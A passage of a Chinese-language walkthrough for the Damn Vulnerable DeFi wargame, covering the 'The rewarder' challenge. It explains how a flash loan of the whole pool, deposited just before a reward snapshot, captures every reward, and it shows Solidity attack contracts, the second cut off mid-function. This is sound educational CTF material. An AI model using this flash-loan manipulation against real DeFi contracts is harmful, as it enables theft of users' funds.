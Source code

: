 ```
function execute() external payable{
     pool.deposit{value:address(this).balance}();
    
}
receive ()external payable{

}

}
```

![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/b6827120cb5c47109142bcc9419826d4~tplv-k3u1fbpfcp-watermark.image?)

(记得部署attack合约，我刚开始没注意，部署到js代码上半部分不需要改动的地方了。）
# 5 The rewarder
题目要求：我获得全部的奖励token并且其他人不能获得收益。

合约会每五天根据用户token余额来发放奖励，奖励的额度和池中全部的token数目和用户存入的token有关。

**前三个合约介绍：**
-   `AccountingToken`：继承了 `openzeppelin` 的 `ERC20Snapshot` 模版的 `ERC20` 代币，提供代币快照功能。该合约在游戏中用于记录用户在某个快照之内充值的代币数量。
-   `FlashLoanerPool`：一个提供 `DVT` 代币的闪电贷池。
-   `RewardToken`：标准 `ERC20` 代币，在该游戏中用于提供给用户代币奖励。

TheRewardPool里面有三种token，`liquidityToken`是真正的token,`accToken`是进行逻辑运算的token,`rewardToken`就是奖励。  
deposit方法就是存钱，然后会根据你的时间节点判断给不给奖励，
但是由于我们是第一次存钱所以_hasRetrievedReward天然返回false,isNewRewardsRound我们要去设立满足5天即可。

初始合约有1000000代币，爱丽丝、鲍勃、查理和大卫一人存了100代币进去
。
他的奖励计算方式：
 rewards = (amountDeposited * 100 * 10 ** 18) / totalDeposits;
 
 如果amountDeposited占比特别大，那么就可以获得所有的奖励，并且其他人奖励为0.  
 然后我们利用上一题漏洞，先把合约全部钱借走，然后用这个钱deposit，再还回去。我们就能拿到所有的奖励了。
 
## 攻击代码：
**攻击合约：**
 ```
 // SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../DamnValuableToken.sol";
import "./FlashLoanerPool.sol";
import "./RewardToken.sol";
import "./TheRewarderPool.sol";

contract attack2{
    DamnValuableToken liquidToken;
    FlashLoanerPool flashpool;
    RewardToken     rewardToken;
    TheRewarderPool theRewarderPool;
    constructor (address acc,address flpool,address retoken,address therepool)public{
     liquidToken= DamnValuableToken(acc); 
     flashpool=FlashLoanerPool(flpool);
     rewardToken=RewardToken(retoken);
     theRewarderPool=TheRewarderPool(therepool);
    }
    function att()public{
      uint256 amount= liquidToken.balanceOf(address(flashpool));
      flashpool.flashLoan(amount);
 ```